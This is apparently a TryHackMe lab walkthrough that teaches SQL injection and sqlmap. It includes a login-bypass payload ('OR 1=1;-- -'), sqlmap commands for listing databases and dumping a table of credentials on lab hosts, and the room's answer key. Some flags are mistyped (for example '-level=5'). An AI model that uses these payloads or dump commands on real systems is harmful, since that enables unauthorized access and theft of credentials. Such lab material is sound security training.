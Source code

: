 # SQLMap: the Basics Tryhackme Walkthrough 

Room URL:


---
## Task 1: Introduction

Let’s talk about one of the sneakiest tricks in the hacker’s toolkit: **SQL Injection**! 

Imagine a website as a polite waiter taking orders from users and delivering them to a database "kitchen" in the back. When you search for something or log in, you’re basically telling the waiter, “Hey, go grab this info from the kitchen.” And the waiter (website) sends your request to the database in SQL, the language it understands.

Now, here’s where things get spicy: SQL Injection is like whispering extra instructions to the waiter to mess with the kitchen. Instead of just ordering a burger, you slyly add, “And also sneak me the manager’s password list.” The unassuming waiter takes it back to the kitchen without question, leading to all sorts of mayhem!

But how is this even possible? Databases work with a system that uses SQL, like MySQL or PostgreSQL, to manage all that data. When websites don’t secure their database connections, attackers can input special SQL commands to trick the website into coughing up sensitive info. This is why SQL injection remains one of the top vulnerabilities in cybersecurity.

So, buckle up, because in this session, you’ll dive deep into SQL Injection basics, learn how it’s done, and even try it out yourself in a hands-on challenge! Who knew hacking could be this educational?

**Question: Which language builds the interaction between a website and its database?**

**Answer:** sql

---

## Task 2: SQL Injection Vulnerability

Imagine you’re logging into a website, trying to get through a login page with your trusty username "John" and secret password "Un@detectable444." Typically, the website sends a query to the database, which looks a bit like this:

```sql
SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';
```

The database checks if you exist and whether that password matches. If yes, you’re in! But hackers have a trick up their sleeve called **SQL Injection** that lets them twist this query into something that works for them.

Let’s say this login page is sloppy with security and doesn’t clean up user input properly. An attacker could type something like:

**Username:** John  
**Password:** abc' OR 1=1;-- -

Now the query becomes:

```sql
SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';
```

The password part now reads:

- Password = 'abc' (no match)
- OR 1=1 (which is always true!)

So the database just shrugs and lets them in. The `--` tells the database to ignore the rest, bypassing the real password check.

**Lesson Learned:** Clean up your input fields, or you might just hand out the keys to the kingdom, courtesy of SQL Injection!

**Question: Which boolean operator checks if at least one side of the operator is true for the condition to be true?**

**Answer:** or

**Question: Is 1=1 in an SQL query always true? (YEA/NAY)**

**Answer:** Yea

---

## Task 3: Automated SQL Injection Tool

Feeling like hacking databases is too much typing? Enter **SQLMap**, the database burglar’s best friend.

Forget trying to break in manually — SQLMap does the hard work for you. It’s like a tour guide for database heists, handling everything from picking the lock to finding the treasure.

**SQLMap** is a command-line tool that turns you into a database wizard, as long as you have permission (seriously). Start by launching it in your Linux terminal, and if you’re feeling overwhelmed, try `--wizard` mode. Think of it as SQLMap holding your hand.

Want to test a URL for weakness? Just feed it a target URL, like:

```
sqlmap -u http://sqlmaptesting.thm/search?cat=1
```

SQLMap will dig in. If it finds a weak point, it’ll reveal the details: error-based, time-based, UNION query, etc.

Once you’ve confirmed a vulnerable URL:

- Use `--dbs` to list the databases
- Use `-D` to pick one
- Use `--tables` to browse inside
- Use `--dump` to get all the records

In a few commands, you’re a digital Indiana Jones uncovering the secrets of SQL!

**Question: Which flag in the SQLMap tool is used to extract all the databases available?**

**Answer:** --dbs

**Question: What would be the full command of SQLMap for extracting all tables from the “members” database?**  
**(Vulnerable URL: http://sqlmaptesting.thm/search/cat=1)**

**Answer:**
```
sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D members --tables
```

---
# TASK 4: Practical Exercise

### Extract the Full GET Request URL:
To view GET parameters, right-click on the page and select “Inspect.”

Go to the Network tab, enter dummy credentials (e.g., email=test and password=test), and hit login.

Locate the GET request; it will look like this:

`http://MACHINE_IP/ai/includes/user_login?email=test&password=test`

Copy this URL, as it includes the GET parameters.

### SQLMap Command Setup:
In the terminal, use the SQLMap tool with this command (substitute MACHINE_IP with the IP address displayed in your AttackBox):

`sqlmap -u 'http://MACHINE_IP/ai/includes/user_login?email=test&password=test' - level=5`

Wrapping the URL in single quotes (‘ ‘) avoids issues with special characters.

### Answering SQLMap Prompts:
When SQLMap asks questions, respond as follows:

- Skip test payloads for other DBMSes: Enter `y`.
- Include all MySQL-specific tests: Enter `y`.
- Try random integer values for ‘–union-char’: Enter `y`.
- Keep testing other parameters if email is vulnerable: Enter `n`.

### SQLMap Results:
After running, SQLMap should identify SQL injection vulnerabilities in the email parameter.

**Question 1: How many databases are available in this web application?**

`sqlmap -u “http://<target-ip>/ai/includes/user_login?email=test&password=test” --dbs -level=5`

**Answer:** 6

**Question 2 : What is the name of the table available in the “ai” database?**

`sqlmap -u “http://<target-ip>/ai/includes/user_login?email=test&password=test” -D ai --tables`

**Answer:** Users

**Question 3 : What is the password of the email test@chatai.com?**

from the ai database dump the Users table

`sqlmap -u "http://<target-ip>/ai/includes/user_login?email=test&password=test" -D ai -T user --dump -level=5`

![image](https://github.com/user-attachments/assets/ab97d5ea-0c98-4ef1-b9af-2e8e53040d85)

**Answer:** 12345678
